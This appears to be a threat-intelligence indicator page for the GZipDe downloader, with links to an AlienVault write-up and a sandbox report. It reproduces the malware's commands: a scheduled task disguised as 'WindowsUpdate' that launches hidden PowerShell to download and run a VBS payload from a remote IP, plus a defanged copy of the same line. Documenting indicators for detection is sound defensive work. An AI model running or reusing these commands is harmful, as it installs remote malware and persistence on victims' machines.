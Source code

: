 ## GZipDe


#### Commands
---

* Schtasks.exe

1.

```
/Create /sc MINUTE /MO 1 /TN WindowsUpdate /TR "Powershell -W Hidden (New-Object System.Net.WebClient).DownloadFile(\\\"http://118.193.251.137/dropbox/?p=BT67HU78HZ\\\",\\\"$env:public\svchost325.vbs\\\");(New-Object -com Shell.Application).ShellExecute(\\\"$env:public\svchost325.vbs\\\");" /F
```

* Powershell.exe

1.

```
-W Hidden (New-Object System.Net.WebClient).DownloadFile(\\\'http[:]//118.193.251[.]137/dropbox/?p=BT67HU78HZ\\\',\\\'$env:public\svchost325.vbs\\\');(New-Object -com Shell.Application).ShellExecute(\\\'$env:public\svchost325.vbs\\\');' /F
```

#### Regular Expressions
---

``
``

#### Resources
---

Technical write-ups:
* https://www.alienvault.com/blogs/labs-research/gzipde-an-encrypted-downloader-serving-metasploit

Sandbox reports:
* https://app.any.run/tasks/e918c80e-ce60-42d6-b365-8fd3256420f0

Notes:



 
